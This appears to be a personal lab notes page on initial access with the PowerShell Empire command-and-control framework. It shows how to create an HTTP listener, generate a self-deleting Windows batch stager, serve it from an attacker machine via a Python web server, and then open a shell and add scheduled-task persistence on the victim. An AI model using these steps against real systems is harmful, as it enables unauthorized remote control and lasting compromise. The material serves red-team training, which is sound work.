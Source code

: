```yaml
---
{"dg-publish":true,"permalink":"/c2-initial-access/"}
---
```


[[Simulating Command and Control Attack & Defend\|Simulating Command and Control Attack & Defend]]

Powershell-empire basics:

```C
sudo powershell-empire server
```

Create a listener:

```C
sudo powershell-empire client
(Empire:) > uselistener http
```

![Pasted image 20240928195850.png](/img/user/x/images/Pasted%20image%2020240928195850.png)
Then create a stager:

```C
(Empire: uselistener/http) > usestager windows_launcher_bat
(Empire: usestager/windows_launcher_bat) > set Listener http1
INFO: Set Listener to http1 
(Empire: usestager/windows_launcher_bat) > execute
INFO: launcher.bat written to /var/lib/powershell-empire/empire/client/generated-stagers/launcher.bat
```

Then serve it to the compromised machine via simple python server:

```C
cd /var/lib/powershell-empire/empire/client/generated-stagers
python3 -m http.server
```

Navigate to `http://<KALI_IP>:8000/`:

![Pasted image 20240928200633.png](/img/user/x/images/Pasted%20image%2020240928200633.png)
Download and execute the file (launcher will delete itself after execution), back to the kali linux:

![Pasted image 20240929162604.png](/img/user/x/images/Pasted%20image%2020240929162604.png)
Another screenshot:

![Pasted image 20240929162748.png](/img/user/x/images/Pasted%20image%2020240929162748.png)
Then we can use the command `interact <name>` to get a shell and to establish persistence:

```bash
usemodule powershell_persistence_userland_schtasks
set Listner http1
execute
```

Command Output:

![Pasted image 20240929163124.png](/img/user/x/images/Pasted%20image%2020240929163124.png)

